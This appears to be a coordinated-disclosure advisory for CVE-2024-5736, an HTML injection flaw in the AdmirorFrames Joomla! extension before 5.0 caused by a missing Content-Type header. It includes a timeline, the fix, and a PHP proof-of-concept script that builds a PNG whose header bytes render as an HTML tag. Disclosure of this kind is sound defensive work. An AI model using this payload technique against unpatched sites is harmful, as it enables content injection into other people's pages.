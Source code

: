 # CVE-2024-5736
AdmirorFrames Joomla! Extension < 5.0 - HTML Injection

## Timeline
- Vulnerability reported to vendor: 26.01.2024
- New fixed 5.0 version released: 06.06.2024
- Public disclosure: 28.06.2024

## Description

HTML Injection in AdmirorFrames Joomla! Extension in `afGdStream.php` file which doesn't set up `Content-Type` header value before sending image data. This causes PHP to send default value of this header (`text/html`) and causes image data to be interptreted as HTML document.  

Example PHP script that generates PNG with width and height fields set to `<s>` HTML tag:
```
<?php
$_payload="AAA";
if(strlen($_payload)%3!=0){
 echo "payload%3==0 !\n"; exit();
}
$_pay_len=strlen($_payload);
echo "LEN: $_pay_len\n";
$width=0x733e; //<s>
$height=0x3c;
$im = imagecreate($width, $height);

$_hex=unpack('H*',$_payload);
$_chunks=str_split($_hex[1], 6);

for($i=0; $i < count($_chunks); $i++){

  $_color_chunks=str_split($_chunks[$i], 2);
  $color=imagecolorallocate($im,hexdec($_color_chunks[0]),hexdec($_color_chunks[1]),hexdec($_color_chunks[2]));

  imagesetpixel($im,$i,1,$color);

}

imagepng($im,"example.png");
```

Result of rendering `example.png` proof of concept file by web browser:
![proof of concept](poc.png)

This issue was caused by usage of default value of `Content-Type` header. This problem has been fixed in AdmirorFrames Joomla! Extension at version 5.0.

## Affected versions
< 5.0 

## Advisory
Update AdmirorFrames Joomla! Extension to version 5.0 or newer.

### References
* https://github.com/vasiljevski/admirorframes/issues/3
* https://cert.pl/en/posts/2024/06/CVE-2024-5735/
* https://cert.pl/posts/2024/06/CVE-2024-5735/
* https://nvd.nist.gov/vuln/detail/CVE-2024-5737
